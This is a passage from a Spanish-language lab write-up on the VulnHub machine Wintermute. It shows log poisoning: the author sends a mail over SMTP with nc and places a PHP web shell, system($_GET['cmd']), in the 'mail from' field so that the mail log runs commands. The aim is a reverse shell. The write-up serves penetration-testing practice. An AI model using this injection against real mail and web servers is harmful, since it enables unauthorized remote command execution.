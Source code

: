 Podemos leer los logs, ahora resta `envenenar`{: .filepath} el log para poder lanzarnos la reverse shell.


## Explotación

---

Para envenenar el log, lo vamos a realizar enviando un mail con código php.

```bash
❯ nc 10.11.12.22 25
220 straylight ESMTP Postfix (Debian/GNU)
helo lvs3c
250 straylight
mail from: "lvs3c <?php system($_GET['cmd']);?>"
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as 4109253A3
quit
221 2.0.0 Bye
```

Validamos el log nuevamente y vemos nuestra entrada!

![mailok](/assets/img/commons/vulnhub/Wintermute/mailok.png){: .center-image }

Probamos ejecución de comandos.
